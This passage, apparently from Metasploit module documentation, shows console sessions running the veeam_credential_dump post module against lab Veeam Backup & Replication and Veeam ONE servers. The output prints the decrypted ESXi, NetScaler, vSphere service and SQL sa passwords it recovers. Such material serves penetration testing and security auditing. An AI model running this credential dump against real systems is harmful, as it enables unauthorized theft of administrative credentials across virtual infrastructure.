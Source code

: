 ```
[+]     P: SK!nP0pp3r
[+] Recovered Credential: Linux user
[+]     L: cs137
[+]     P: Quit2Day!
[+] Recovered Credential: ESXi root
[+]     L: root
[+]     P: Quit2Day!
[+] Recovered Credential: CESIUM137\vSphereSvc
[+]     L: CESIUM137\vSphereSvc
[+]     P: $XklZZiCpToP5wn7
[+] Recovered Credential: NetScaler nsroot
[+]     L: nsroot
[+]     P: Quit2Day!
[+] Decrypted Veeam Backup & Replication Database Dump: /root/.msf4/loot/20221209091150_default_192.168.101.39_veeam_vbr_dec_391876.txt
[*] Performing decryption of Veeam ONE Monitor SQL database
[+] 1 VOM rows loaded, 1 unique IDs
[*] Process Veeam ONE Monitor DB ...
[+] 1 VOM rows processed
[*] 1 rows recovered: 0 plaintext, 1 decrypted (0 blank)
[*] 1 rows written (0 blank rows withheld)
[+] 1 unique VOM ID records recovered
[+] Recovered Credential: VeeamONE Credential
[+]     L: CESIUM137\vSphereSvc
[+]     P: $XklZZiCpToP5wn7
[+] Decrypted Veeam ONE Monitor Database Dump: /root/.msf4/loot/20221209091150_default_192.168.101.39_veeam_vom_dec_557706.txt
[*] Post module execution completed
msf6 post(windows/gather/credentials/veeam_credential_dump) > 
```

Windows Server 2019 host running Veeam ONE with SQL native auth using the `dump` action:

```
msf6 exploit(multi/handler) > use windows/gather/credentials/veeam_credential_dump
msf6 post(windows/gather/credentials/veeam_credential_dump) > set session 1
session => 1
msf6 post(windows/gather/credentials/veeam_credential_dump) > dump

[*] Hostname VEEAMONE IPv4 192.168.101.143
[*] Veeam ONE Monitor Install Path: C:\Program Files\Veeam\Veeam ONE\Veeam ONE Monitor Server
[+] Compressed size: 1268
[*] Veeam ONE Monitor Build 11.0.1.1880
[+] Compressed size: 1336
[*] Get Veeam SQL Parameters ...
[+] Compressed size: 2280
[+] Compressed size: 2344
[+] SQL Database Connection Configuration:
[+]     Instance Name: VEEAMONE\VEEAMSQL2016
[+]     Database Name: VeeamONE
[+]     Database User: sa
[+]     Database Pass: AintEZB3ingGr33n
[*] Performing export of Veeam ONE Monitor SQL database to CSV file
[*] Export Veeam ONE Monitor DB ...
[+] 2 rows exported, 2 unique IDs
[+] Encrypted Veeam ONE Monitor Database Dump: /root/.msf4/loot/20221209090827_default_192.168.101.143_veeam_vom_enc_319808.txt
[*] Performing decryption of Veeam ONE Monitor SQL database
[+] 2 VOM rows loaded, 2 unique IDs
[*] Process Veeam ONE Monitor DB ...
[+] Compressed size: 2248
[+] Compressed size: 2312
[+] 2 VOM rows processed
[*] 2 rows recovered: 0 plaintext, 2 decrypted (0 blank)
```